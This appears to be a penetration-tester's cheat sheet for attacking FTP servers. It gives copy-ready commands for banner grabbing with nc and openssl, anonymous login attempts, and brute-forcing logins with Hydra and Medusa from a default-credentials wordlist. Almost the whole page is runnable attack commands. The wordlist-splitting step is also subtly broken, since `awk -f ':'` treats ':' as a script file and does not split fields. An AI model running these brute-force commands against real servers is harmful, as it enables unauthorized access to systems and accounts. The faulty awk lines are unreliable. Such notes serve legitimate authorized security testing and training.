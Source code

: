 # File Transfer Protocol

## Banner Grabbing

Useful to determine FTP version and capabilities

```shell
nc -vn  $rhost ${port:-21}  # without ssl
openssl s_client -connect $rhost:${port:-21} -starttls ftp  # with ssl
```

## Anonymous Login

Useful to determine FTP version and capabilities

```{.shell .copy}
nc -C $rhost ${port:-21} -w ${timeout:-1} << EOF
USER anonymous
PASS anonymous
HELP
FEAT
EOF
```

## Brute force

```{.shell .copy title="Default credentials"}
user_pass=/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt
awk -f ':' '{print $1}' $user_pass > users.txt
awk -f ':' '{print $2}' $user_pass > passwords.txt
users=users.txt
passwords=passwords.txt
```

```{.shell .copy title="Hydra"}
hydra \
 -e nsr \
 -s ${port:-21} \
 -L $users \
 -P $passwords \
 -o "$rhost-hydra-ftp" \
 ftp://$rhost
```

```{.shell .copy title="Medusa"}
medusa \
 -e ns \
 -n ${port:-21} \
 -U $users \
 -p $passwords \
 -O "$rhost-medusa-ftp" \
 -M ftp \
 -h $rhost
```
